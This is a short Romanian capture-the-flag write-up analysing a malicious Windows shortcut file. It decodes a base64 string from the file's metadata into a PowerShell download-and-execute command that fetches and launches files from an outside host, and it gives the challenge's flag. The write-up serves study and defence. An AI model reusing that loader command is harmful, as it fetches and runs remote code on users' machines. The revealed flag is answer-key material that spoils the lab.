

Sarcina:
```
While going through your Halloween treats, a strange message appears: "Trick or Treat?" Curious, you click, and suddenly a mysterious .lnk file appears on your desktop.
Now it's up to you to investigate this spooky shortcut and find out if it’s just a trick—or if it’s hiding a darker secret.
```
Avem doar un fișier cu o extensie de `.ink`. Sa verificam ce conține acest fișier cu un string:
```
strings trick_or_treat.lnk 
/C:\
Windows
System32
WindowsPowerShell
v1.0
powershell.exe
%SystemRoot%\System32\shell32.dll
1SPS
```
Nimic util să verificam și metadatele:



În metadate avem suspect dar la moment nu înțelegem că este codat:
```
aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=
```
După ce a fost decodat vedem și flagul în plain-text:
```
echo "aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=" | base64 -d
iwr -Uri https://trickortreat.htb/boo.pdf -OutFile $env:TEMP\ Dropbox boo.pdf;$flag='HTB{tr1ck_0r_tr34t_g03s_wr0ng}';Start-Process $env:TEMP\ Dropbox boo.pdf;Start-Sleep -s 5;iwr -Uri https://trickortreat.htb/candy.js -OutFile $env:TEMP\cacndy.js;Start-Process $env:TEMP\candy.js;Exit
```
Flagul este: `HTB{tr1ck_0r_tr34t_g03s_wr0ng}`

